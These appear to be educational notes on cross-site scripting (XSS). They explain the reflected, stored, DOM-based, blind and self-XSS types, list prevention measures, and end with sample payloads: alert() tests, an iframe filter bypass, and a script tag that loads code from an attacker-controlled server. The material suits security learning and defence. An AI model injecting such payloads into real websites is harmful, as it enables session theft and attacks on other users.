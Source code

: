 # XSS Overview

Cross-Site Scripting is an injection attack where malicious code (*JavaScript*, *HTML*, *etc.*) gets injected into a web application with the intention of being executed by other users

* If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by others (*Comment sections*, *etc.*)
* Attackers can have the victim's browser execute malicious script or code to do certain actions (*Steal cookies*, *Leak personal information*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Types of XSS

| XSS Type | Description |
| --- | --- |
| Reflected XSS | |
| Stored XSS | |
| DOM-Based XSS | |
| Blind XSS | |

## Reflected XSS

Reflected XSS occurs when an attacker injects malicious scripts into a web application that are immediately reflected back to a user without proper validation or sanitization

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/8e3bffe500771c03366de569c3565058.png)

* Relies on tricking a user into clicking a specially crafted link or submitting a malicious form, which then executes the malicious script in their browser
* In this case, the application takes in user input, processes it server-side, and immediately returns it to the user
* Often happens when the server relies on user input to construct pages that display search results or error messages (*Search bars*, *etc.*)
* Enables attackers to execute code on the browsers of victims who click their malicious links
* Reflected XSS payloads get sent to the server and returned to the user's browser within an HTTP response

| Reflected XSS Method | Description |
| --- | --- |
| Parameters in the URL Query String | |
| URL File Path | |
| HTTP Headers | |

## Stored XSS

Stored XSS is when a malicious script that was injected by an attacker is permanently stored on the target web server (Ex: *Database*, *Message forum*, *Comment section*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/cc2566d297f7328d91bc8552f902210e.png)

* When other users view the affected content, the malicious script is served and executed in their browser
* All the user has to do to become a victim is to view a page with the payload embedded (Whereas reflected and DOM XSS usually require the user to click a malicious link)
* Everytime users access the stored information, the XSS executes in their browser

## DOM-Based XSS

DOM-Based XSS occurs when the client-side script of a web application manipulates the Document Object Model in an unsafe way based on user input (The DOM is a model that represents a web page's structure and used to render a web page by defining the basic properties and behavior of each HTML element)

* Targets the DOM directly by attacking the client's local copy of the web page instead of going through the server (Attackers can attack the DOM when a page takes user-supplied data and dynamically alters the DOM based on that input)
* Doesn't require server involvement because it executes when user input modifies the source code of the page in the browser directly (The XSS script is never sent to the server, so the HTTP response from the server won't change)
* User input never leaves the user's browser
* The application takes in user input, processes it on the victim's browser, and then returns it to the user (The XSS payload is injected onto a page because of client-side code rendering user input in an insecure manner)

## Blind XSS

Blind XSS is when a threat actor injects malicious scripts into a web application without immediately seeing the results

* Useful when the injected script is stored and later executed in a different context or viewed by a subject that has access to a part of the application that the attacker can't directly see  (Ex: *An attacker can submit a message with JavaScript code and have that code executed by any admin who views that message*)

## Self-XSS

Self-XSS is where an attack tricks vicitms to input a malicious payload themselves 

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Preventing XSS

* Robust input validation
* Contextual output escaping (Escaping ensures that browsers don't misinterpret characters as code to execute)
* Contextual output encoding
* Applications should never insert user-submitted data directly into an HTML document
* Applications should avoid code that rewrites the HTML document based on user input
* Applications should implement client-side input validation before it's inserted into the DOM
* You can instruct the browser to execute only scripts from a list of source

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Payloads

```HTML
<img onload=alert('XSS') scr="example.png">
```

URL
```Text
javascript:alert('XSS')
```

Data URL
```Text
data:text/html;base64,<ENCODED_STRING>
```

iFrame (Useful when <script> tags are banned by the XSS filter)
```HTML
<iframe src=javascript:alert('XSS')>
```

Make the victim's browser request a page on your server
```JavaScript
<script src='http://<SERVER_IP>/test'></script>
```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Polygot

An XSS polygot is a type of XSS payload that executes in multiple contextx (Ex: *It'll execute regardless of whether it is inserted into an <img> tag, <script> tag, or a <p> tag*)
